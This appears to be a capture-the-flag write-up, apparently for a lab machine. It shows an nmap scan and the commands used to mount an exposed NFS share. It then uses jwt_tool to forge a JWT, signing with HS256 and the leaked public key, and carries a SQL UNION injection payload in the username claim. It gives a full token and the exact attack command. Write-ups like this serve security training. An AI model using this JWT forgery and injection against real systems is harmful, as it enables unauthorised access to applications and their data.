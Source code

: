 nmap

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
2049/tcp  open  nfs
37977/tcp open  unknown
40423/tcp open  unknown
41035/tcp open  unknown
42825/tcp open  unknown
57877/tcp open  unknown
111/udp   open  rpcbind
33779/udp open  unknown
50918/udp open  unknown
57140/udp open  unknown
57739/udp open  unknown
58802/udp open  unknown
```

Trying to mount the share folder through NFS service.

```shell
showmount -e 192.168.216.222
mkdir /tmp/test_folder
sudo mount -t nfs 192.168.216.222:/mnt/share /tmp/test_folder -o nolock
```

Finding a public key but don't know where to use it. 

Next, checking the website. After trying to register many accounts, I find an existing account `brain` the username in the contacts page.



Registering account on the web page and check the session is JWT. We refer to this [article](https://infosecwriteups.com/attacking-json-web-tokens-jwts-d1d51a1e17cb) for testing.

JWT SQL injection

```shell
git clone https://github.com/ticarpi/jwt_tool.git
cd jwt_tool
python3 jwt_tool.py <token> -I -pc <Payload claim to tamper with> -pv "<sql command>" -S hs256 -k public.pem
# pc = payload claim to tamper with
# public.pem = public key from NFS
```

Our test payload

```
python3 jwt_tool.py eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjY1NTg3MzE4fQ.pi_Q8MWnXPtCDhgGcu5yQrjwuPWdgmyHnb7R5eqfBMsAx8UUb-jJ7rvw4bwbqNoucm8STXQweQ_VZwtXka2MCwVMbYSleb4HBa5glk7TdYfq6VATRLXgOU1hKEq1_bJnt5CZhZsBSpiupf2TetA1CeoOAP4Az8h7YAPRNGumJ-rP1z8G3M9uVhfgEJQce4OFNMfLRjFgynPlh9Ekg9ElzdGAUPmv_XjFQnEHLzICW5S6n_8b8siRZFSyNY3A-NcMT-c4D-LqM0WlU_IKdTXoL4vFOc88Yiw0mur51Nokz53xOvEJCEqWndPtOu-uTFKp_e3haNRllEHb3CFvuGi8sepuJil-sW0kZZ8zGtqf4nT4ET4Y6gGAw6qpXoon8ZdC_VfAauuh8gVm11JPbhbXbHsuYSKkdbOOd1p-SemWp9J8-QzB5vyIBql4av8OQ7SiQG9CUUNyg_YDzdPNW3GwzvlTbBArODb4L7BEsOvAsGdTSqimSPI7SWff3I2UdXvo7TfaLXShal_IAnMfh7C96WV8kGHPuRoAd7tikK72vNno2THv1JrvyL4aX3WJ84T3INDzInkNjCGexUk29Q31yZVG4eGZKF7Kbto-rXOryCHfg-JalDmzrOiCh14dDYl6o5YQv4XGFxBke7ucytBi5XO-BZSc8V2NCn9h2v8b88U -I -pc username -pv " ' UNION SELECT 1, 2, 3 --  " -S hs256 -k public.pem
```